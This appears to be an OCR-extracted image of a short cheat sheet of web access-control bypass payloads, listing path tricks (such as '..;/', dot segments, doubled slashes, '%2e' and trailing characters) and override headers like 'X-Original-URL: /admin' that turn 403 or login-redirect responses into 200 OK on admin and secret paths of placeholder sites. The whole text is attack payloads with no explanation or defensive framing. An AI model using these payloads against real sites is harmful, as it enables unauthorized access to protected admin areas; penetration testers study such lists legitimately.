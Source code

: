 	https://target.com/admin/ –> HTTP 302 (redirect to login page)
	https://target.com/admin..;/ –> HTTP 200 OK

	https://target.com/../admin
	https://target.com/whatever/..;/admin

	site.com/secret –> HTTP 403 Forbidden
	site.com/secret/ –> HTTP 200 OK
	site.com/secret/. –> HTTP 200 OK
	site.com//secret// –> HTTP 200 OK
	site.com/./secret/.. –> HTTP 200 OK

	X-Original-URL: /admin
	X-Override-URL: /admin
	X-Rewrite-URL: /admin

	/accessible/..;/admin
	/.;/admin
	/admin;/
	/admin/~
	/./admin/./
	/admin?param
	/%2e/admin
	/admin#